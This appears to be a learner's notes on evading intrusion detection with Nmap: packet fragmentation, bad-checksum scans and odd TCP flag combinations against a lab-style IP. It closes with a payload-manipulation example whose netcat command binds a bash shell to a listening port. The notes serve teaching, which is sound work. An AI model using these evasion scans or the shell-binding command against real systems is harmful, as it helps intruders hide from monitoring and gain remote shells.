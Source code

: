 Nmap offers a few options to fragment packets. You can add:

- `-f` to set the data in the IP packet to 8 bytes.
- `-ff` to limit the data in the IP packet to 16 bytes at most.
- `--mtu SIZE` to provide a custom size for data carried within the IP packet. The size should be a multiple of 8.

Additionally taking a look at `fragroute` which allows you to configure to force all your packets to be fragmentend into specific sizes.
#### Sending Invalid Packets
---
It can be unclear how systems would respond to invalid packets. For instance, an IDS/IPS might process an invalid packet, while the target system might ignore it. The exact behavior would require some experimentation or inside knowledge.

`nmap --badsum`

- Makes Nmap send packets with **intentionally bad TCP/UDP checksums**.
- Normally, the OS discards such packets as corrupted.
- But if the target replies, and the IPS ignores the packet (thinking it’s corrupted), the attacker learns:

    - The IPS isn’t validating end-to-end checksums.
    - The target OS is more forgiving.

```C
nmap -sS --badsum 10.201.120.218
```

`nmap --scanflags`

- Lets you create custom **TCP flags**.
- Normal 3-way handshake: `SYN -> SYN/ACK -> ACK`.
- Attackers can send unusual combinations, e.g.:

	- `--scanflags FINPSHURG` -> all three flags set.
	- `--scanflags SYNFIN` -> contradictory flags (start and end).

Why?

- Some targets respond differently to "illegal" flag combos, revealing OS or firewall quirks.
- Some IDS/IPS systems may ignore traffic with strange flags, letting it slip through.

```C
nmap -sS --scanflags SYNRSTFIN 10.201.120.218
```

## Evasion via Payload Manipulation
---
Since IDS/IPS rules are very specific, you can easily make minor changes to avoid detection such as adding extra bytes, obfuscating the attack data, and encrypting the communication.

Consider this command:

```C
ncat -lvnp 1234 -e /bin/bash
```

